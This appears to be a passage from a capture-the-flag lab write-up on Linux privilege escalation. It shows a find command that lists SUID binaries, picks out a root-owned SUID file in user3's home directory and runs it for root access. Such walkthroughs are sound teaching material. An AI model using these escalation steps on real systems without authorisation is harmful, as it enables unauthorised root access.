 ## #5.1 - What is the path of the file in user3's directory that stands out to you?

Let's search for files with the SUID bit set:

~~~
user3@polobox:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/sbin/mount.ecryptfs_private
/sbin/mount.cifs
/usr/sbin/pppd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/arping
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/xorg/Xorg.wrap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/ping
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/umount
/bin/fusermount
/home/user5/script
/home/user3/shell
~~~

There is an interesting file (`shell`) in our home directory.

Answer: `/home/user3/shell`

## #5.2 - We know that "shell" is an SUID bit file, therefore running it will run the script as a root user! Lets run it! We can do this by running: "./shell"

The file `/home/user3/shell` is owned by `root` and has the `SUID` bit set. Running the program will execute as root:

~~~
user3@polobox:~$ ls -l /home/user3/shell 
-rwsr-xr-x 1 root root 8392 Jun  4  2019 /home/user3/shell
user3@polobox:~$ ./shell 
You Can't Find Me
Welcome to Linux Lite 4.4 user3
 
Thursday 14 May 2020, 16:30:21
Memory Usage: 329/983MB (33.47%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
~~~ 
